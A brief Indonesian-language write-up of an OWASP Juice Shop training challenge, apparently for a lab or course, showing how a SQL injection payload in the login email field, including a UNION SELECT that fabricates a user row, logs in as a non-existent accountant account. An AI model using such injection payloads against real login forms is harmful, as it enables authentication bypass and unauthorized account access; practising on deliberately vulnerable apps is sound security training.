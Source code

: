 Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.
https://juice-shop.herokuapp.com/#/score-board?categories=Injection 

Hal-hal yang dilakukan: 
1. Mencoba login untuk melihat bagaimana cara login ke server
2. Dan didapat 
{
  "email": "' and true--",
  "password": "123"
}
3. Membuat sebuah payload yang seakan-akan email itu ada dengan menggunakan UNION select 
4. Dengan payload seperti ini untuk bagian email "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
5. Dengan password bebas maka kita akan berhasil masuk ke acc0unt4nt@juice-sh.op tanpa harus registrasi 

Bukti 
![alt text](assets/Ephemeral.png)

![alt text](assets/Ephemeral%202.png)


#### Berhasil